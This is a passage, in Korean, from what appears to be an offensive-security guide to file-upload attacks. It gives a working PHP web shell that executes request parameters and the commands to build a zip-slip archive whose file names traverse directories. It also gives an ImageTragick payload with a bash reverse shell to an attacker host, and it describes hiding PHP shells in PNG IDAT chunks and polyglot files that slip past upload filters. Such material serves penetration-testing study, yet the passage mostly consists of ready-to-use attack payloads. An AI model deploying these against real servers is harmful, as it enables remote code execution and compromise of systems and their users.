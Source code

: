 1.  **PHP 셸 생성**: PHP 코드는 `$_REQUEST` 변수를 통해 전달된 명령을 실행하도록 작성됩니다.

```php
<?php
if(isset($_REQUEST['cmd'])){
$cmd = ($_REQUEST['cmd']);
system($cmd);
}?>
```
2.  **파일 스프레이 및 압축 파일 생성**: 여러 파일이 생성되고 이 파일들을 포함하는 zip 아카이브가 조립됩니다.

```bash
root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
root@s2crew:/tmp# zip cmd.zip xx*.php
```
3.  **Hex 편집기 또는 vi로 수정**: zip 내부의 파일 이름을 vi 또는 hex 편집기를 사용하여 변경하여 "xxA"를 "../"로 바꿔 디렉토리를 탐색합니다.

```bash
:set modifiable
:%s/xxA/..\//g
:x!
```

## ImageTragic

이 콘텐츠를 이미지 확장자로 업로드하여 취약점을 악용하세요 **(ImageMagick , 7.0.1-1)** (출처: [exploit](https://www.exploit-db.com/exploits/39767))
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```
## PNG에 PHP 셸 삽입하기

PNG 파일의 IDAT 청크에 PHP 셸을 삽입하면 특정 이미지 처리 작업을 효과적으로 우회할 수 있습니다. PHP-GD의 `imagecopyresized` 및 `imagecopyresampled` 함수는 각각 이미지를 크기 조정하고 재샘플링하는 데 일반적으로 사용되므로 이 맥락에서 특히 관련이 있습니다. 삽입된 PHP 셸이 이러한 작업의 영향을 받지 않는 능력은 특정 사용 사례에 있어 중요한 장점입니다.

이 기술에 대한 자세한 탐구, 방법론 및 잠재적 응용 프로그램은 다음 기사에서 제공됩니다: ["PNG IDAT 청크에 웹 셸 인코딩하기"](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/). 이 자료는 프로세스와 그 의미에 대한 포괄적인 이해를 제공합니다.

자세한 정보는: [https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

## 다중 언어 파일

다중 언어 파일은 사이버 보안에서 독특한 도구로 작용하며, 여러 파일 형식에서 동시에 유효하게 존재할 수 있는 카멜레온과 같습니다. 흥미로운 예로는 [GIFAR](https://en.wikipedia.org/wiki/Gifar)가 있으며, 이는 GIF와 RAR 아카이브로서 기능하는 하이브리드입니다. 이러한 파일은 이 조합에 국한되지 않으며, GIF와 JS 또는 PPT와 JS와 같은 조합도 가능합니다.

다중 언어 파일의 핵심 유틸리티는 파일 유형에 따라 파일을 스크리닝하는 보안 조치를 우회할 수 있는 능력에 있습니다. 다양한 애플리케이션에서 일반적인 관행은 JPEG, GIF 또는 DOC와 같은 특정 파일 유형만 업로드를 허용하여 잠재적으로 해로운 형식(예: JS, PHP 또는 Phar 파일)으로 인한 위험을 완화하는 것입니다. 그러나 다중 언어 파일은 여러 파일 유형의 구조적 기준을 준수함으로써 이러한 제한을 은밀하게 우회할 수 있습니다.
